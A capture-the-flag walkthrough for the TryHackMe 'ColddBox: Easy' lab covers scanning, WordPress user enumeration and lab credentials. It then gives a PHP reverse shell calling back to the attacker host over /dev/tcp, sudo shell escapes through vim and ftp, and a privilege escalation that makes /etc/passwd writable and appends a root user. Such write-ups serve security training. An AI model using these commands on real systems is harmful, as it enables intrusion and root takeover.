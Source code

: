 # ColddBox: Easy

**Room Link:** [https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9) (11).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

port 4512 found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (16).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (13) (10).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wpscan --url http://$VICTIM/ --enumerate u
```



<figure><img src="../../.gitbook/assets/image (5) (12).png" alt=""><figcaption></figcaption></figure>



```
Username: c0ldd
Password:  9876543210
```



## Reverse Shell

revshell code

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```



<figure><img src="../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 443
```



Then just go to a page that doesn't exist, in this case p=1 existed but p=2 did not.

<figure><img src="../../.gitbook/assets/image (14) (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat /var/www/html/wpconfig.php
```

<figure><img src="../../.gitbook/assets/image (10) (5).png" alt=""><figcaption></figcaption></figure>



### TCP/4512 - SSH

**Victim**

```
ssh c0ldd@$VICTIM -p 4512
Password: cybersecurity
```

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation Option 1 - VIM

**Victim**

```
sudo -l
sudo vim -c ':!/bin/sh'
```

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation Option 2 - FTP

**Victim**

```
sudo ftp
!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (6) (5).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation Option 3 - chmod

**Victim**

```
ls -lah /etc/passwd
LFILE=/etc/passwd
sudo chmod 6777 $LFILE
ls -lah /etc/passwd
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

**Victim**

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

























































































